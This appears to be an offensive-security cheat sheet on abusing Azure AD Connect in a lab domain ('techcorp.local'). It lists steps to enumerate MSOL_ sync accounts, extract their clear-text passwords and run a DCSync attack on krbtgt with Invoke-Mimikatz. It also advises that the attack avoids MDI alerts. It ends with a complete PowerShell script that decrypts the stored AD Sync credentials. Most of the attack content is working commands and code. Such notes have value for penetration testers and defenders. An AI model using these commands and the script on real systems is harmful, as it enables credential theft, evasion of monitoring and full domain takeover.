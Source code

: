 # Cross Domain Attacks [ Azure AD Integration ]
## Methodology/Steps
> 1. Enumerate the users accounts who have **MSOL_** attribute identity.
> 2. Start a process with the priv of that user
> 3. Execute adconnect ps1 script, this will provide the creds of the user
> 4. Connect using runas and perform a DCSync Attack

---

## PowerShell
### 1. Enumerate the PHS account and server where AD Connect is installed
```powershell
# Powerview
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local

# AD Module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

### 2. Dump the creds of the user and logon
> With administrative privileges, if we run adconnect.ps1, we can extract the credentials of the MSOL_ account used by AD Connect in clear-text
> Note: Adconnect.ps1 script's code runs powershell.exe so verbose logs (like transcripts) will be there.
```powershell
# Adconnect
. .\adconnect.ps1
adconnect

# Runas that user
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

### 3. Execute the DCSync attack
> Please note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the **MSOL_** account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts!
```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

---

# Abusing Azure AD Connect

+ Run the following script
```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

#$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
